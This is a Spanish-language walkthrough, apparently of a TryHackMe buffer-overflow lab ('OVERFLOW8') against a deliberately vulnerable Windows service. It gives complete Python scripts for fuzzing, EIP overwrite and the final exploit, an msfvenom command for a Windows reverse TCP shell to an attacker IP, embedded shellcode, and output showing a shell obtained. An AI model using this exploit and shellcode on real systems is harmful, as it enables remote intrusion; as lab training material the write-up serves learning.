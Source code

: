 ```yaml
---
layout: post
title: BofferOverflow8 - THM
subtitle: BofferOverflow8 - THM
tags: [bof,windows,python]
---
```


**EIP**: Es el puntero de instrucción, Señala(mantiene la dirección de) el 1er byte de la siguiente instrucción que se ejecutará  
**ESP**: Es el puntero de pila. Apunta(contiene la dirección) del valor introducido más recientemente en la pila.

## Fuzzing

Primera etapa de un desbordamiento en pila que consiste en enviar datos aleatorios en la entrada del programa de manera automatizada, de esta forma comprobar la seguridad de la entrada en lo que respecta a la validación de datos.

```
#!/usr/bin/python

import socket, sys
from time import sleep

buffer = "A" * 200

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.settimeout(2)
        s.connect(('192.168.0.102',1337))
        s.recv(1024)

        print '[*] Length: ' + str(len(buffer))
        s.send("OVERFLOW8 " + buffer)
        s.close()
        sleep(1)
        buffer=buffer+'A'* 200

    except Exception as e:
        print '[*] Error: ' + str(e)
        sys.exit(1)
```

```
❯ python fuzzer.py
[*] Length: 200
[*] Length: 400
[*] Length: 600
[*] Length: 800
[*] Length: 1000
[*] Length: 1200
[*] Length: 1400
[*] Length: 1600
[*] Length: 1800
[*] Error: timed out
```

![crash](../assets/imgs/bof8/crash.png)

##  Encontrar el EIP

```
> pwn cyclic 2000
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaab[...]
```

```
import socket, sys
from time import sleep

buffer = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaacoaacpaacqa[..]"

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[!]' + str(e)
  sys.exit()
```

![eip](../assets/imgs/bof8/eip.png)

```
❯ pwn cyclic -l "arwa"
1786
```

## Sobreescribir EIP

```
import socket, sys
from time import sleep

buffer = "A"  * 1786 + "B" * 4 + "C" *100

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[!]' + str(e)
  sys.exit()
```

![eip2](../assets/imgs/bof8/eip2.png)

## Encontrar badchars

Damos click derecho en el registro `esp` y seleccionamos la opción `follo in dump`.

![follow](../assets/imgs/bof8/follow.png)

Seleccionamos los caracteres que no se interpretan.

![chars](../assets/imgs/bof8/chars.png)

badchars: `\x00\x1d\x2e\xc7\xee`

----

## Buscar el modulo adecuado

![modulos](../assets/imgs/bof8/modulos.png)

Buscando `dll` para un salto a `JMP ESP`

![dll](../assets/imgs/bof8/dll.png)

Forma resumida:

```
!mona jmp -r esp -cpb "\x00\x1d\x2e\xc7\xee"
```

![cpb](../assets/imgs/bof8/cpb.png)

----

## Generar shellcode

| argumento | descripción |
|--|--|
| lhost | IP del atacante |
| lport |  puerto de elección del atacante |
| EXITFUNC=thread | agrega estabilidad a nuestro payload |
| -f | tipo de archivo |
| -a | arquitectura de la máquina |
| --platform | tipo de Sistema Operativo |
| -b | badchars |

```
❯ sudo msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.107 lport=4444 -b "\x00\x1d\x2e\xc7\xee" EXITFUNC=thread -f c
```

```
import socket
import sys
from time import sleep

shellcode=("\xdb\xc2\xbe\x9e\xc4\x32\x0e\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x70\x17\x03\x70\x17\x83\x5e\xc0\xd0\xfb\xa2\x21\x96"
"\x04\x5a\xb2\xf7\x8d\xbf\x83\x37\xe9\xb4\xb4\x87\x79\x98\x38"
"\x63\x2f\x08\xca\x01\xf8\x3f\x7b\xaf\xde\x0e\x7c\x9c\x23\x11"
"\xfe\xdf\x77\xf1\x3f\x10\x8a\xf0\x78\x4d\x67\xa0\xd1\x19\xda"
"\x54\x55\x57\xe7\xdf\x25\x79\x6f\x3c\xfd\x78\x5e\x93\x75\x23"
"\x40\x12\x59\x5f\xc9\x0c\xbe\x5a\x83\xa7\x74\x10\x12\x61\x45"
"\xd9\xb9\x4c\x69\x28\xc3\x89\x4e\xd3\xb6\xe3\xac\x6e\xc1\x30"
"\xce\xb4\x44\xa2\x68\x3e\xfe\x0e\x88\x93\x99\xc5\x86\x58\xed"
"\x81\x8a\x5f\x22\xba\xb7\xd4\xc5\x6c\x3e\xae\xe1\xa8\x1a\x74"
"\x8b\xe9\xc6\xdb\xb4\xe9\xa8\x84\x10\x62\x44\xd0\x28\x29\x01"
"\x15\x01\xd1\xd1\x31\x12\xa2\xe3\x9e\x88\x2c\x48\x56\x17\xab"
"\xaf\x4d\xef\x23\x4e\x6e\x10\x6a\x95\x3a\x40\x04\x3c\x43\x0b"
"\xd4\xc1\x96\x9c\x84\x6d\x49\x5d\x74\xce\x39\x35\x9e\xc1\x66"
"\x25\xa1\x0b\x0f\xcc\x58\xdc\xf0\xb9\x62\x77\x99\xbb\x62\x96"
"\x05\x35\x84\xf2\xa5\x13\x1f\x6b\x5f\x3e\xeb\x0a\xa0\x94\x96"
"\x0d\x2a\x1b\x67\xc3\xdb\x56\x7b\xb4\x2b\x2d\x21\x13\x33\x9b"
"\x4d\xff\xa6\x40\x8d\x76\xdb\xde\xda\xdf\x2d\x17\x8e\xcd\x14"
"\x81\xac\x0f\xc0\xea\x74\xd4\x31\xf4\x75\x99\x0e\xd2\x65\x67"
"\x8e\x5e\xd1\x37\xd9\x08\x8f\xf1\xb3\xfa\x79\xa8\x68\x55\xed"
"\x2d\x43\x66\x6b\x32\x8e\x10\x93\x83\x67\x65\xac\x2c\xe0\x61"
"\xd5\x50\x90\x8e\x0c\xd1\xb0\x6c\x84\x2c\x59\x29\x4d\x8d\x04"
"\xca\xb8\xd2\x30\x49\x48\xab\xc6\x51\x39\xae\x83\xd5\xd2\xc2"
"\x9c\xb3\xd4\x71\x9c\x91")

buffer = 'A'*1766 + "\x90"*20 + '\xaf\x11\x50\x62' + "\x90"*20 + shellcode

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[*] Error: ' + str(e)
  sys.exit()
```

----

## Ganar acceso al sistema

```
❯ python exploit.py
[*] Sending buffer

─────────────────────────────────────────────────────────────────

❯ nano exploit.py
❯ cat exploit.py | xclip -sel clip
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.102] 49413
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\win7bits\Desktop\vulnerable-apps\oscp>whoami
whoami
win7\win7bits
```
